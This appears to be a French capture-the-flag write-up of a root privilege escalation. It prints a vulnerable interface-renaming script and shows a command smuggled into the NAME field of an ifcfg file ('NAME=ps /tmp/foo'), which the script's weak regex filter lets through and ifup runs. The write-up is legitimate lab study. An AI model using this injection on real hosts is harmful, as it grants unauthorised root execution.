 ### /usr/local/sbin/changename.sh
Le script nous demande de renseigner plusieurs valeur: NAME, PROXY_METHOD...  
  
Ces valeurs sont mises dans un fichier : `/etc/sysconfig/network-scripts/ifcfg-guly`  
Ensuite, la commande suivante est executé : `/sbin/ifup guly0`  

Ce fichier permet donc de configurer une interface, puis de l'activer "/sbin/ifup INTERFACE".  
  
Après quelques recherches sur internet, et d'après l'indication fournis, il semble qu'une injection de commande soit possible dans le fichier de l'interface. En fait, chaque ligne est executé comme du code Bash.  

Donc lorsqu'on ecrit :
- NAME=VALUE COMMAND ARGS  

**NAME** prend bien la valeur **VALUE**, mais ce qui suit est executé comme une commande, on peut même passer des arguments si necessaire.

Lorsque qu'on allume l'interface, le code Bash malicieux est tout de suite executé.

On remarque pourtant un filtre mais il n'est pas suffisant.
```bash
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
	echo "interface $var:"
	read x
	while [[ ! $x =~ $regexp ]]; do
		echo "wrong input, try again"
		echo "interface $var:"
		read x
	done
	echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0

[guly@networked ~]$ cat /etc/sysconfig/network-scripts/ifcfg-guly
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=ps /tmp/foo
PROXY_METHOD=eee
BROWSER_ONLY=eee
BOOTPROTO=eee
```
